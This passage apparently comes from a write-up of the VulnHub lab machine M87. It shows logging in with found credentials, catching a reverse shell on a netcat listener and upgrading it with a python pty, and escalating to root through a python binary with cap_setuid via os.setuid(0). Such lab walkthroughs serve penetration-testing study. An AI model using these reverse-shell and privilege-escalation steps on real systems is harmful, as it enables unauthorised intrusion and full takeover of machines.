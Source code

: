 ![9090](/assets/img/m87/9090.png)

Here I tried username `charlotte` and password `15The4Dm1n4L1f3` to login.

![login1](/assets/img/m87/login1.png)

Now we can access `terminal`.

![terminal](/assets/img/m87/terminal.png)

# Reverse Shell
Now we can get reverse shell using the terminal window.

![rce](/assets/img/m87/rce.png)
```
┌─[hitesh@parrot]─[~/boxes/vulnhub/m87]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.222] from (UNKNOWN) [192.168.1.223] 32832
python -c 'import pty;pty.spawn("/bin/bash")'
charlotte@M87:~$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/m87]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/m87]
└──╼ $nc -nvlp 4444

charlotte@M87:~$ export TERM=xterm
charlotte@M87:~$ 
```

# Flag 1
```
charlotte@M87:~$ cat local.txt 
29247ebdec52ba0b9a6fd10d68f6b91f
``` 
# Privesc to Root
I upload linpeas.sh on box and run it. 
```
[+] Capabilities
/usr/bin/old = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
We found that `/usr/bin/old` have `cap_setuid` capabilities.
When I run the /usr/bin/old found that it running python.
```
charlotte@M87:~$ /usr/bin/old
Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
Now it's very easy to launch the shell using python as root user.
```
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/bash')
root@M87:~# 

```